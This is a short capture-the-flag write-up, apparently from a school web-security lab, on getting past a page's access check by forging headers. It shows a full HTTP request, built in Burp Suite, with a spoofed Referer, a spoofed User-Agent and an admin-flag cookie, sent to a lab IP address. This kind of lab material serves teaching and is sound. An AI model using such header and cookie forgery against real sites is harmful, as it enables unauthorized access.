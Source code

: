 # headers
In the footer of the home page there is a link © BornToSec

We inspect the page we got some comments at the end of the page

> You must come from : "https://www.nsa.gov/".

>	Let's use this browser : "ft_bornToSec". It will help you a lot.

We need to change the headers in the request to do that I used burpsuite 

changed referer header to "https://www.nsa.gov/
and User-Agent to ft_bornToSec

the request is now like this :

> GET /?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f HTTP/1.1

>Host: 10.11.43.99

>Cache-Control: max-age=0

>Upgrade-Insecure-Requests: 1

>User-Agent: ft_bornToSec

>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

>Referer: https://www.nsa.gov/

>Accept-Encoding: gzip, deflate

>Accept-Language: en-US,en;q=0.9

>Cookie: I_am_admin=68934a3e9455fa72420237eb05902327

>Connection: close 

send the request in the intruder

and got the flag!
